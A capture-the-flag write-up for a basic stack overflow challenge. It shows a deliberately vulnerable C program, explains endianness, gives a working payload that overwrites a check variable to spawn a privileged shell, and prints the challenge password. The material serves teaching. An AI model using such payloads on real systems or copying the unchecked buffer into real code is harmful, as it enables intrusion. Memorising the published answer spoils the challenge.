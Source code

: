```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


## Source code
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{

  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
The program first sets up a `check` variable with the value `0x04030201`.
The program then sets up a buffer of 40 bytes.
It then uses the `fgets` to take user input.
## fgets()
```c
char *fgets(char *s, int size, FILE *stream);
```
As we can see it takes 3 arguments.
	- The first argument is the location where the input is supposed to be read to which is the buffer in our case.
	- The second argument is the maximum number of bytes to be read being 45.
	- The third argument is where the data us read from which is the STDIN in our case.

Lastly it has two conditional statements:
	- The first conditional executes if we replace the original value of the `check` variable with anything other than `0xdeadbeef`.
	- The second conditional executes if we replace the original value of the `check` variable with `0xdeadbeef`.

Let's provide 40 `a` and 4 `b` characters as input.
```
$ python -c 'print "a"*40 + "b"*4' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[check] 0x62626262

You are on the right way!
```
We can see that `check` was set to `bbbb` which is `0x62626262` in hexadecimal which caused first conditional statement to be executed.
## Stack
```
+---------------+ 
|  61 61 61 61  | <====== buffer (40 bytes)
|  61 61 61 61  | 
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
+---------------+
|  62 62 62 62  | <====== check
+---------------+
```
We want to set the `check` variable to `0xdeadbeef`. However before we do that we need to understand the concept of endianness.
## Big endianness
```
+--------+--------+--------+--------+
| 0x1337 | 0x1338 | 0x1339 | 0x1340 |
+--------+--------+--------+--------+
|   de   |   ad   |   be   |   ef   |
+--------+--------+--------+--------+
```
The LSB is stored in the high memory address (`0x1340`) while the MSB is stored in the low memory address (`0x1337`).

This is the format in which humans write numbers.
## Little endianness
```
+--------+--------+--------+--------+
| 0x1337 | 0x1338 | 0x1339 | 0x1340 |
+--------+--------+--------+--------+
|   ef   |   be   |   ad   |   de   |
+--------+--------+--------+--------+
```
The LSB is stored in the low memory address (`0x1337`) while the MSB is stored in the high memory address (`0x1340`).

This is the format in which machines store data. This is the relevant format for our level.

Now we are ready to craft our exploit.
## Exploit
```
$ python -c 'print "a"*40 + "\xef\xbe\xad\xde"' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
```
So the shell is closing immediately. In order to complete the exploit we need the shell to stay open.

We can use the `cat` command to keep the shell open.
```
$ (python -c 'print "a"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
```
We know that the password is in the `HOME/.passwd` file. All we have to do now is to `cat` it.
```
cat .passwd
1w4ntm0r3pr0np1s
```
## Password
```
1w4ntm0r3pr0np1s
```
